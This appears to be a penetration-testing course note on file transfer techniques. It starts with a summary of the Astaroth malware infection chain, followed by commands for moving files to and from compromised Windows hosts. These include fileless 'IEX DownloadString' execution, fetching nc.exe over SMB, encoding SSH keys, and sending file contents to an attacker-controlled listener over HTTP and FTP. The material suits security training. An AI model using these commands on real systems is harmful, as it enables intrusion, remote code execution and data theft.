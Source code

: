 # Astaroth Attack
------------------
1. A spear-phishing email containing a .lnk file. When clicked, the .lnk file run a bat scripts that runs WMIC
2. WMIC downloads XSL file, hosting obfuscated JavaCript, which runs WMIC again
3. WMIC donwloads XSL file hosting obfuscated JavaScript, which uses the Bitsadmin, certutil and regsvr tool
4. Multiple instances of Bitsadmin download encoded payloads
5. certutil decodes payloads
6. decoded payloads is run with Regsvr32 and runs a second DLL -> loads third DLL. This DLL decrypts and injects another DLL into userinit
7. The DLL that's loaded into userinit is a proxu that reads, decrypts and reflectivly loads a final DLL, which is the info-stealer Astaroth

# Download Operations
----------------------------------------
### PowerShell Base64 Encode & Decode

- Pwnbox Check SSH key MD5 Hash
```bash
md5sum id_rsa
```

- Pwnbox Encode SSH Key to Base64
```bash
cat id_rsa | base64 -w 0; echo
```

- Copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it.
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String($BASE64_STRING))
```

- Confirm the MD5 Hashes Match
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

**NOTE:** this may not work because some CMD has a maximum string length of 8191 characters. Also, a web sehll may error if we atteempt to send extremly large strings.

### PowerShell Web Downloads

- PowerShell DownloadFile Method
```powershell
# Net.WebClient
(New-Object Net.WebClient).DownloadFile($TARGET_FILE_URL, $OUTPUT_FILE_NAME)
	OR
(New-Object Net.WebClient).DownloadFileAsync($TARGET_FILE_URL, $OUTPUT_FILE_NAME)

	# Options
	DownloadFile: Downloads data from a resource to a local file
	DownloadFileAsync: Downloads data form a resource to a local file without blocking the calling thread.
```

- PowerShell DownloadString - Fileless Method
```powershell
# We run directly in memory using Invoke-Expression cmdlet (IEX)
IEX (New-Object Net.WebClient).DownloadString($URL)
	OR 
(New-Object Net.WebClient).DownloadString($URL) |IEX
```

- PowerShell Invoke-WebRequest
```powershell
Invoke-WebRequest $URL -OutFile $FILE_NAME
```

### SMB Downloads
------------------------------------
- Most likely, this does not work because new versions of Windows block unauthenticated guest access.
```bash
# Create SMB server
sudo impacket-smbserver share -smb2support /tmp/smbshare

# Copy a File from the SMB Server
copy \\$IP\share\nc.exe
```

- Instead, we can do this:
```bash
# Create SMB Server with a Username and Password
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

# Mount the SMB Server with Username and Password
net use n:\\$IP\share /user:test test
```

### FTP Downloads
-------------------
- Installing the FTP Server Python3 Module
```bash
sudo pip3 install pyftpdlib
```

- Set up Python3 FTP Server
```bash
sudo python3 -m pyftpdlib --port 21
```

- Perform File transfer from Windows/PowerShell using `Net.WebClient`
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://$IP/file.txt','ftp-file.txt')
```

- A lot of time, when we get a shell, we do not have an interative shell. If that's the case, we can create an FTP command file to donwload a file.
```bash
# Create a file
echo open $PWNBOX > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt

# Run the file
ftp -v -n -s:ftpcommand.txt
```


# Upload Operations
### PowerShell Base 64 endcode & Decode
- Encode File Using PowerShell
```powershell
# Encode 
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
# get the has to confirm the file on pwnbox
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
- Copty the content and paste it into pwnbox
```bash
echo $STRING | base64 -d > hosts
# Integrity
md5sum hosts
```

### PowerShell Web Uploads
```powershell
Invoke-FileUpload -Uri http://$PAWNBOX:8000/upload -File $FILE_NAME
```

### PowerShell Base64 Web Upload
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://$PAWNBOX:8000/ -Method POST -Body $b64

# Get the file on the pwnbox
nc -lnvp 8000
```

### SMB Uploads
- Install WebDav Python modules
```bash
sudo pip install wsgidav cheroot

# Use the module
suod wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
- Connect to the Webdav Share on target machine
```powershell
dir \\$PAWNBOX\\DavWWWRoot

# DavWWWRoot is a special keyword recognized by the Windows Shell, telling the Mini-Redirector driver (which handles WebDAV requests that you're connecting to the root of the WebDAV server)

Connect to a folder existing on the server:
dir \\$PAWNBOX\\sharefolder
```

- Upload Files using SMB
```powershell
copy $FILE \\$PWNBOX\DavWWWRoot\
	OR
copy $FILE \\$PWNBOX\sharefolder
```

### FTP Uploads
- Set up FTP server on pwnbox
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

- PowerShell Upload File
```powershell
(New-Object Net.WebClient).UploadFile('ftp://$PWNBOX/ftp-hosts', $FILE_NAME)
```

- Create a command file for FTP
```bash
echo open $PWNBOX > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt

# Execute the file
ftp -v -n -s:ftpcommand.txt
```